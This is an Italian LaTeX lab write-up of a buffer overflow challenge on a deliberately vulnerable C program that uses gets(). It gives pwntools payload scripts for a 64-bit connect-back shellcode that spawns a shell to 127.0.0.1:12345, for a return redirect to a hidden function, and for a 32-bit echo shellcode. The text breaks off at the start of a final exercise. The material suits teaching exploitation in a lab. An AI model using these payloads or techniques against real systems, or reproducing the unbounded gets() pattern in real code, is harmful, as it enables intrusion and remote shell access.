\chapter{Buffer Overflow}

In questa challenge si tenta di sfruttare una vulnerabilità di tipo Buffer Overflow al fine di iniettare uno shellcode all'interno dell'applicativo vittima.

L'applicativo da attaccare è \texttt{wisdom-alt.c}, mostrato di seguito:

\begin{lstlisting}[language=C]
char greeting[] = "Hello there\n1. Receive wisdom\n2. Add wisdom\nSelection >";
char prompt[] = "Enter some wisdom\n";
char pat[] = "Achievement unlocked!\n";
char secret[] = "secret key";

int infd = 0; /* stdin */
int outfd = 1; /* stdout */

#define DATA_SIZE 512

typedef struct _WisdomList {
  struct  _WisdomList *next;
  char    data[DATA_SIZE];
} WisdomList; 

struct _WisdomList  *head = NULL;

typedef void (*fptr)(void);

void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}

void pat_on_back(void) {
  write(outfd, pat, sizeof(pat));
  return;
}

void get_wisdom(void) {
  char buf[] = "no wisdom\n";
  if(head == NULL) {
    write(outfd, buf, sizeof(buf)-sizeof(char));
  } else {
    WisdomList  *l = head;
    while(l != NULL) {
      write(outfd, l->data, strlen(l->data));
      write(outfd, "\n", 1);
      l = l->next;
    }
  }
  write(outfd, "\n", 1);
  return;
}

void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}

fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/wisdom-alt.png}
  \caption{wisdom\_alt}
\end{figure}

\section{Challenge}

L'obiettivo è di sfruttare l'input che viene raccolto in ingresso per poter iniettare uno shellcode.

In particolare, all'interno di \texttt{put\_wisdom()}, è presente la funzione \texttt{gets()} che non effettua alcun controllo sulla dimensione dell'input, permettendo di scrivere oltre i limiti del buffer impostato.

\begin{lstlisting}[language=C]
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;

  WisdomList  *l = malloc(sizeof(WisdomList));

  if(l != NULL) {
    memset(l, 0, sizeof(WisdomList));
    strcpy(l->data, wis);
    if(head == NULL) {
      head = l;
    } else {
      WisdomList  *v = head;
      while(v->next != NULL) {
        v = v->next;
      }
      v->next = l;
    }
  }

  write(outfd, "\n", 1);

  return;
}
\end{lstlisting}

Il menu principale è possibile aggirarlo inserendo all'interno del payload che andremo a definire l'opzione insieme a un riempitivo. Il riempitivo è definito per via della funzione \texttt{read()} che occupa 1024 caratteri:

\begin{lstlisting}[language=bash]
$ python3 -c 'import sys; sys.stdout.write("2\n"+ "A"*1022)' > cyclic
\end{lstlisting}

Il passaggio principale è di definire una sequenza ciclica di De Bruijn, al fine di trovare lo stack pointer. Questo ci permetterà di ottenere il giusto offset.

Nel nostro caso, scegliamo una sequenza ciclica di 8 caratteri per 1200 caratteri totali:

\begin{lstlisting}[language=bash]
$ cyclic -n 8 1200 >> cyclic
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_wisdom-pwnd.png}
  \caption{Applicazione wisdom messa fuori gioco}
\end{figure}

Dopo esserci accertati che l'attacco ha avuto successo, tramite \texttt{gdb} analizziamo il punto preciso in cui il programma è fuoriuscito dallo stack pointer, in modo da definire lo spazio per il nostro shellcode.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_stack.png}
  \caption{Analisi del buffer overflow}
\end{figure}

Nel nostro caso la sequenza da attaccare è la \texttt{ctaaaaaa}. Usiamo cyclic per scovare dove è collocata la sequenza ciclica.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_cyclic_location.png}
  \caption{Sequenza ciclica}
\end{figure}

Da qui, possiamo creare il nostro script per generare l'attacco:

\begin{lstlisting}[language=Python]
s_code = shellcraft.amd64.linux.connect('127.0.0.1', 12345) + shellcraft.amd64.linux.dupsh('rbp')

s_code_asm = asm(s_code)

ret_addr = 0x7FFFFFFFDA88 - 551
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += nop*(551 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge1", "wb") as f: 
	f.write(payload)
\end{lstlisting}

Infine, lo eseguiamo e avviamo una sessione server in un altro terminale.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/ch1_success.png}
  \caption{SuccessCh1}
\end{figure}

\section{Challenge Extra}

\subsection{Eseguire la funzione \texttt{write\_secret()}}

La funzione \texttt{write\_secret()} è una funzione che stampa la stringa "secret key" all'interno del terminale, e non è raggiungibile tramite il menu principale.

\begin{lstlisting}[language=C]
void write_secret(void) {
  write(outfd, secret, sizeof(secret));
  return;
}
\end{lstlisting}

\texttt{secret}, a sua volta, è una stringa dichiarata all'inizio del file:

\begin{lstlisting}[language=C]
char secret[] = "secret key";
\end{lstlisting}

In questo caso, eseguendo il programma tramite gdb, estraiamo l'indirizzo della funzione, andando prima a inserire un breakpoint nel \texttt{main}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_gdb_breakpoint.png}
  \caption{write\_secret}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_print.png}
  \caption{write\_secret}
\end{figure}

Da qui, creiamo il nostro payload:

\begin{lstlisting}[language=Python]
ret_addr = 0x555555555229
addr = p64(ret_addr, endian ='little')

nop = asm('nop', arch="amd64")

payload = b"2\n" + b"A"*1022

payload += b"A" * 551 + addr

with open("./payload_challenge_extra1", "wb") as f: 
	f.write(payload)
\end{lstlisting}

È possibile notare che, dall'output, siamo riusciti nel nostro intento:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX1_success.png}
  \caption{SuccessChX1}
\end{figure}

\subsection{Attaccare \texttt{put\_wisdom()} nella versione a 32 bit}

L'accortezza principale è che ora gli indirizzi sono di 4 byte, e che la RET causa un'eccezione DOPO aver fatto il pop: l'indirizzo verrà rimosso dalla cima dello stack e inserito in EIP.

Come passaggio preliminare, compiliamo il file in modo da ottenere un eseguibile a 32 bit tramite il flag \texttt{-m32}:

\begin{lstlisting}[language=make]
wisdom-alt-32: wisdom-alt.c
	$(CC) -fno-stack-protector  -z execstack  -g -m32  wisdom-alt.c  -o wisdom-alt-32
\end{lstlisting}

Ripetendo gli stessi passaggi per quanto riguarda la versione a 64 bit, usando però una sequenza ciclica di 4 caratteri, troviamo prima il punto di ingresso tramite offset:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_payload_test.png}
  \caption{Sequenza ciclica}
\end{figure}

Dopodiché, si trova il numero della sequenza ciclica della stringa ciclica all'interno di EIP:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_cyclic_location.png}
  \caption{Sequenza ciclica in EIP}
\end{figure}

A questo punto non resta che creare il payload, in questo caso un \texttt{echo}:

\begin{lstlisting}[language=Python]
s_code = shellcraft.i386.linux.echo("Hello world!") + shellcraft.i386.linux.exit()
s_code_asm = asm(s_code)

ret_addr = 0xffffcd20 - 535
addr = p32(ret_addr, endian ='little')

nop = asm('nop', arch = 'i386')

payload = b"2\n" + b"A"*1022

payload += nop*(535 - len(s_code_asm) - 64) + s_code_asm + nop*64 + addr

with open("./payload_challenge_extra2", "wb") as f: 
	f.write(payload)
\end{lstlisting}

E attaccare l'applicativo:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../1.BufferOverflow/img/chX2_success.png}
  \caption{SuccessChX2}
\end{figure}

\subsection{Attaccare il buffer overflow nell'array globale \texttt{ptrs} (versione 32 bit), fare eseguire la funzione \texttt{pat\_on\_back()}}

Sempre nella versione a 32 bit, adesso proviamo ad accedere, mediante l'array del menù principale, alla funzione \texttt{pat\_on\_back()}, contenuta all'interno del puntatore \texttt{p}.

